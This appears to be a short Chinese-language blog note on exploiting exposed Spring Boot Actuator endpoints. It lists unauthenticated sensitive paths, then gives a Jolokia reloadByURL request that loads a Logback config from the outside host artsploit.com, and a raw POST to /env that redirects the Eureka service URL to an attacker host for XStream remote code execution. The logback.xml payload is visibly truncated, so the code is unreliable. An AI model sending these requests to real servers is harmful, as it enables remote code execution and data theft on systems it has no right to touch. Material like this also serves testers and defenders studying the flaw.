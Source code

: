 1.  Spring Boot 1-1.4，无需身份验证即可访问以下敏感路径，而在2.x中，存在于/actuator路径下。

```


1.  `/dump-显示线程转储（包括堆栈跟踪）`
2.  `/trace-显示最后几条HTTP消息（其中可能包含会话标识符）`
3.  `/logfile-输出日志文件的内容`
4.  `/shutdown-关闭应用程序`
5.  `/mappings-显示所有MVC控制器映射`
6.  `/env-提供对配置环境的访问`
7.  `/restart-重新启动应用程序`


```

2.  jolokia进行远程代码执行，Jolokia允许通过HTTP访问所有已注册的MBean，并且旨在执行与JMX相同的操作。可以使用URL列出所有可用的MBeans操作：[http://127.0.0.1:8090/jolokia/list](http://127.0.0.1:8090/jolokia/list)

Logback库提供的**reloadByURL**操作使我们可以从外部URL重新加载日志配置，地址如：

```


1.  `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`

3.  `logback.xml：`
4.  `<configuration>`
5.   `<insertFromJNDI env-entry- />`
6.  `</configuration>`


```

reloadByURL功能从[http://artsploit.com/logback.xml下载新配置，并将其解析为Logback配置。这就导致两个问题：XXE盲攻击、恶意LDAP服务器解析引用导致RCE。](http://artsploit.com/logback.xml%E4%B8%8B%E8%BD%BD%E6%96%B0%E9%85%8D%E7%BD%AE%EF%BC%8C%E5%B9%B6%E5%B0%86%E5%85%B6%E8%A7%A3%E6%9E%90%E4%B8%BALogback%E9%85%8D%E7%BD%AE%E3%80%82%E8%BF%99%E5%B0%B1%E5%AF%BC%E8%87%B4%E4%B8%A4%E4%B8%AA%E9%97%AE%E9%A2%98%EF%BC%9AXXE%E7%9B%B2%E6%94%BB%E5%87%BB%E3%80%81%E6%81%B6%E6%84%8FLDAP%E6%9C%8D%E5%8A%A1%E5%99%A8%E8%A7%A3%E6%9E%90%E5%BC%95%E7%94%A8%E5%AF%BC%E8%87%B4RCE%E3%80%82)

3.  通过/env来修改配置

如果Spring Cloud Libraries在类路径中，则**’/ env’**端点允许您修改Spring环境属性。

```


1.  `POST /env HTTP/1.1`
2.  `Host: 127.0.0.1:8090`
3.  `Content-Type: application/x-www-form-urlencoded`
4.  `Content-Length: 65`

6.  `eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream`


```
